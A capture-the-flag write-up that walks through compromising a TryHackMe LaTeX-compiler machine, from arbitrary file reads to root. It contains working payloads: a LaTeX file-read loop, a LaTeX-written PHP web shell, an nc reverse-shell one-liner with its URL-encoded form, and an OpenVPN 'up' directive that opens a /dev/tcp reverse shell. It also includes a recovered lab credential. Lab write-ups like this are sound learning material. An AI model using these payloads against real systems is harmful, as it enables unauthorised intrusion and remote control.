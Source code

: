 # LaxCTF

"Try Harder!"

This one was tough, but fun. I learnt a lot more than I would like about latex. 

While the first stage - getting a shell on the box, was very exploratory and fun, the second stage got a weee bit CTF-like, with props like secret values encoded using keys buried in unrealistic APKs and an exploitable connection to TryHackMe etc. 

Ah well, learned a bit, and all the time wasted enumerating certainly taught me a lot about enumerating :D However, I would hope OSCP is a little more real-world than this.

That being said, a *different* lesson might be that, when attacking a crafted environment, anything out of the ordinary is worth deep investigation. Here I had looked at the APK and discarded it, and the ovpn file but thought it was nothing since it was empty (I looked at it for creds). A deeper, or different look, would have carried me through.

## Process

First, only 22 and 80 are open. 80 reveals a 'TexMaker' website, where you can enter LaTeX script and have it compiled into a PDF for you.

I immediately investigated reading files into the output (LFI) and executing shell commands through LaTeX. 

> The docs, by the way, for LaTeX are truly hideous - how has it survived and thrived for so long with such shit documentation?

I found this blog: https://0day.work/hacking-with-latex/. It shows several LaTeX abuse techniques, and over the next six hours or so I experimented with them:

- First, shell execution is right out (as far as I can tell). The common commands `immediate`, `write18` or `input|` were all blocked. Even the `\def` trick the blog specifies at the end didn't result in any code execution, so I assumed all shell escapes were turned off (later confirmed).

- Second, I could read files anywhere. I read `\etc\passwd` but it failed, likely due to latex interpreting `_` as a command character and the system having at least one user like `_apt`; I could do partial extraction via not looping but just going line by line, however I eventually found a better technique: rather than using `\text` to emit the line to the generated PDF, if I used `\typeout` I could write to the compile log which is printed on the page:

    ```
    \newread\file
    \openin\file=/etc/passwd
    \loop\unless\ifeof\file
        \read\file to\fileline 
        \typeout{\fileline}
    \repeat
    \closein\file
    ```

- Third, writing anywhere didn't work. I could write files with no path, so local, but I didn't know where that directory was and so couldn't emit a shell or anything.

With no shell commands, I figured my best bet was going to be adding some PHP to the website somewhere. I knew it was PHP because `dirb` revealed a 200 code for `config.php` (it also revealed a few listable directories, like where the pdf's go).

Using my `typeout` technique, I was able to fully read `/etc/passwd` and found an entry for `/home/king`. Guessing the user flag would be `user.txt`, I successfully read it using the same technique.

At this point, my chief focus was finding where the web directory was. I tried lots of things, even trying to guess various `/var/www/` paths, to no avail. Finally, via this blog https://highon.coffee/blog/lfi-cheat-sheet/, I found out about `/proc/self/environ`. Reading that partially failed, but I got enough of the content to reveal the `OLDPWD` of the current user was `/var/www/html/Latex`. Boom!

Reading `config.php` revealed the existence of a `/compile` path. I had tried writing files to `/pdf` and `/assets` but they hadn't worked. Writing a `.php` to `/var/www/html/Latest/compile/test.php` did work though, and I was able to browse to it! I promptly used the following to create a simple PHP web shell:

    \newwrite\outfile
    \openout\outfile=shell.php
    \write\outfile{<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>}
    \closeout\outfile

    some random text to ensure pdf is created

Going to `/compile/shell.php?cmd=whoami` got that magic `www-data`. To get a reverse shell I used this script:

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.178.75 4444 >/tmp/f

Though since it had to be in the query string, I first encoded it to url with Burp:

    %72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%37%38%2e%37%35%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66

Once on the machine, I tried `sudo -l` and `find / -user root -perm -u=s` without success. I checked out that suspicious entry from the bottom of `/etc/passwd`: `/opt/secret`, and found a file readable and executable by everyone that looked to be (via its first line) a aes/cbc/128 encoded file. I've saved it here as [laxctf.secret](./laxctf.secret).

I spent another huge amount of time (~4 hours) enumerating. I found a apk file under the website, but after running it through strings and decoding it via unzip it didn't seem to contain anything. I also found a script owned by `king` called `cleanpdfdir.sh`, but adding a test `echo "cat /etc/passwd > passwd.txt" >> cleanpdfdir.sh` didn't produce results.

Eventually I gave up, and went for some help. This directed me straight back to the apk, and a tool I was unaware of: apktool: https://ibotpeaches.github.io/Apktool/documentation/

I used this to decode the apk, and while crawling through its files, I found in `smali/com/example/a11x256/frida_test/my_activity.smali` code like the following:

    .prologue
    .line 90
    :try_start_0
    const-string v3, "sUp3rCr3tKEforL!"

    .line 91
    .local v3, "pre_shared_key":Ljava/lang/String;
    const-string v1, "sUp3rCr3tIVforL!"

    .line 92
    .local v1, "generated_iv":Ljava/lang/String;
    const-string v5, "AES/CBC/128"

Using that via an [online AES decoder](https://www.devglan.com/online-tools/aes-encryption-decryption) I got the following a huge brainfuck script (easily determined via its syntax: `----[---->+<]>--.+[--->+<]>+.[--->+<]>+.[->+++++` etc.). Running that through [a brainfuck interpreter](https://www.dcode.fr/brainfuck-language) gave me what looked a bit like base64. Running *that* through [cyberchef](https://gchq.github.io/CyberChef) didn't decode, however. 

But, one thing I noticed, was that the supposed base64 started with `=`; normally base64, if it has these, adds them at the end as padding. 

A bit of experimenting revealed the solution: reverse -> from base64 * 16 (yes, decode from base64 16 times) which finally gave: 

    king:tryh@ckm3w4sH3r3

After this, ssh'ing onto the box as King, even moar enumeration. The PATH variable looked suspicious, along with root's cronjob that ran `bash run.sh`. I tried replacing bash via exploiting the fact that PATH appeared to include king's home directory subfolders, but that didn't work.

More help pointed me to a suspicious file in /home that I had previous ignored as some sort of weird artefact: one thing about this room is that its a bit CTF-ey, not real worldey, if that makes sense. Basically there is an tryhackme.ovpn file in the home dir, and its being run by run on a shedule, likely as part of the `run.sh` the cronjob is invoking.

Well, there is an exploit via ovpn files: https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da

I replaced the ovpn's content with:

    remote 3.104.196.208:1194
    dev null
    script-security 2
    up "/bin/bash -c '/bin/bash -i > /dev/tcp/10.10.162.148/4444 0<&1 2>&1&'"

With the first IP Port above being the IP Port I use when connecting to TryHackMe (just there to make the connection valid), and the second IP Port being my attacker machine, where I set up a nc listener.

A root shell popped momentarily. A bit silly, really.